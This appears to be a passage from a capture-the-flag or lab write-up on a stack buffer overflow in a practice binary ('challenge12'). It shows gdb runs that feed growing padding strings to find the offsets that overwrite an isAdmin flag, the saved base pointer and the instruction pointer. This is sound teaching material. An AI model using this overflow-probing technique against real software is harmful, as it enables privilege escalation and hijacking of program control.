 ### Nearly enough overflow

Offset: 70

```
(gdb) run `python -c 'print "A" * 70 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 70 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x4242
[Inferior 1 (process 504) exited normally]
```

### Overflow into SBP

Offset: 74

```
(gdb) run `python -c 'print "A" * 74 + "BBBB"'` test
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 74 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x42424141

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400832 in main ()
```

### Overflow into SIP

Offset: 82

```
(gdb) run `python -c 'print "A" * 82 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 82 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004242 in ?? ()
```

Offset: 86
```
(gdb) run `python -c 'print "A" * 86 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 86 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424141 in ?? ()
```
